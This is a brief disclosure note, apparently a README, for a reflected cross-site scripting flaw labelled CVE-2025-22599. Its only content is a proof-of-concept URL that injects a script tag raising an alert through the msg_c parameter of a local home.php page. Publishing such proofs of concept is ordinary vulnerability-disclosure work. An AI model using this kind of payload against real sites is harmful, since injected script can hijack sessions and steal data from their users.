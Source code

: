 # Reflected Cross-Site Scripting (XSS) [CVE-2025-22599]

## exploit endpoint

     http://localhost:4000/home.php?msg_c=<script>alert('XSS Attack')</script>